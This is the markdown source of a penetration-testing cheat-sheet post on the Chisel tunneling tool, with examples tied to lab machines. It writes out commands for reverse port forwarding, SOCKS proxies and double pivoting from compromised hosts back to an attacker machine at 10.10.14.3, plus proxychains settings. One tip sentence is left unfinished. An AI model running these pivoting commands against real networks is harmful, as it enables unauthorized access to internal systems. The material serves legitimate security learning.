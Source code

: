 ```yaml
---
description: >-
  Chisel
title:  Chisel             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, Chisel]                     # Change Templates to Writeup
tags: [port redirection and tunneling, chisel]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


Download [Chisel](https://github.com/jpillora/chisel/releases)

### Remote port forwarding
Chisel as client:
```powershell
# Single Port
.\\chisel.exe client 10.10.16.4:1337 R:1433:localhost:1433
# All the ports
./chisel client 10.10.14.3:1234 R:127.0.0.1:socks
```
Examples:
[[Anubis#^e12b6c]]

Chisel as server:
```bash
./chisel server --port 1337 --reverse
```
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:simple-pivoting)

### Forward SOCKS Proxy
Chisel as client:
```bash
./chisel.sh server -p 2345 --socks5
```
Chisel as server:
```bash
./chisel_1.7.7_linux_amd64 client 10.10.11.107:2345 <PROXY_PORT>:socks
```
Additionally /etc/proxychains.conf file needs to be setted as follows:
```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 <PROXY_PORT>
```
Finally if this is an HTTP service we need to configure the foxyproxy with the port choosen:
![Description](/assets/img/Pasted image 20220711213232.png)
Examples:
[[Antique#^45b307]]

### Double Pivoting

If there are two machines and we want to reach the second one fully with with double chisel, we need to upload a chisel and proceed to do the following commands:

1) On Kali Machine:
```bash
# For all the pivotings
./chisel server -p 1234 --reverse
```
> This server needs to be opened only once, and all the subsequent connections will be redirected towards this port.
{: .prompt-tip }

2) On first machine:
```powershell
# It needs to point to the Kali server:
./chisel client 10.10.14.3:1234 R:127.0.0.1:socks
```
> Since the port for the proxy is not specified, the socks proxy will be opened on port 1080 by default.
{: .prompt-tip }

3) On second machine:
```powershell
# It needs to point to the Kali server on different socks port:
./chisel client 10.10.14.3:1234 R:1081:socks
```
> For the second machine the second socks proxy port needs to be specified, it is worth mentioning that 
{: .prompt-tip }

![Chisel-Double-Pivoting](/assets/img/Pasted image 20230523001536.png)

Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:double-pivoting)